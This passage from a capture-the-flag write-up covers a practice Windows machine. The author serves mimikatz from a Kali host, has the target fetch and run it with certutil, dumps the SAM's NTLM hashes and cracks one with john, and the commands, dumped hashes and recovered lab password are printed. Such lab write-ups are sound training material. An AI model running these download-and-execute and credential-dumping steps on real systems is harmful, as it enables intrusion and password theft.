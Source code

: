 #### Mimikatz

Use mimikatz's binary version since I can't get powershell work on this old machine

Host mimikatz.exe

```bash
┌──(kali㉿kali)-[~/thm/www]
└─$ ln -s /opt/sectools/win/windows-resources/mimikatz/x64/mimikatz.exe

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

On target

```bash
certutil -urlcache -split -f http://10.11.19.145/mimikatz.exe mimi.exe
mimi
```

```bash
mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d

mimikatz #
```

### Crack NTLM Hashes

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > sam.hash
john --wordlist=/opt/wordlists/rockyou.txt sam.hash --format=NT
```

> alqfna22

## Find flags!
---
